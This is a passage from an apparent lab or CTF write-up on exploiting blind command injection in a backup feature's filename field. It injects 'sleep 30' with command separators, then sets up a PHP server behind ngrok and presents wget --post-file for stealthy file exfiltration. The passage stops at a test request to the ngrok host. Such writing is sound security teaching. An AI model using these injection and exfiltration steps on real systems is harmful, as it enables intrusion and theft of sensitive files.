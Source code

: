 ### Leveraging Blind Injection for Remote Code Execution (RCE)
After noticing that the application’s backup feature accepts a filename as input, I decided to test for command injection by manipulating this input. Using Burp Suite’s Repeater, I captured the HTTP request responsible for triggering the backup. Then inject a simple sleep command (e.g., `sleep 30`) into the filename field, chaining it with a command separator like `;, &&, or |` to test if additional commands are executed. The server takes noticeably longer to respond around 30 seconds, in this case this delay suggests that the sleep command ran successfully, confirming blind command injection.

![image](https://hackmd.io/_uploads/HkiSPnyWyx.png)

## Configuring a Server to Receive Exfiltrated Data
To exfiltrate data from a compromised system, we’ll set up a PHP server on our attacking machine and use Ngrok to make it accessible over the internet. This allows us to receive files that wget retrieves from the target system via command injection.

Starting a PHP Server

```
php -S 0.0.0.0:8888 -t .
```
![image](https://hackmd.io/_uploads/HJ_Hqn1bJe.png)

Port Forwarding with Ngrok

```
ngrok http 127.0.0.1:8888
```

![image](https://hackmd.io/_uploads/rJe1s3kb1g.png)

### Wget utility
wget is a command-line utility used to download files from the internet, commonly found on Linux systems. It supports `HTTP, HTTPS, and FTP` protocols, making it versatile for fetching files from various sources. While typically used to retrieve content from the web, wget also has powerful options that can be creatively leveraged for exfiltration and data transfers. You can learn more about wget [here](https://www.cbtnuggets.com/blog/technology/system-admin/what-is-wget-in-linux)

`wget` can be adapted to upload files to a remote server using the `--post-file` option. This option sends a file from the target machine to a specified URL, which can then be captured by a listening server. With command injection, `wget` can be used to pull sensitive files from a compromised system and send them to a remote location without requiring direct interaction with the target. This makes wget an effective tool for stealthy data exfiltration.

Testing our server
```
wget http://0b0e-41-74-120-172.ngrok-free.app/test.txt
```
![image](https://hackmd.io/_uploads/H1ZW331WJe.png)

![image](https://hackmd.io/_uploads/B1pM2nkZyl.png)
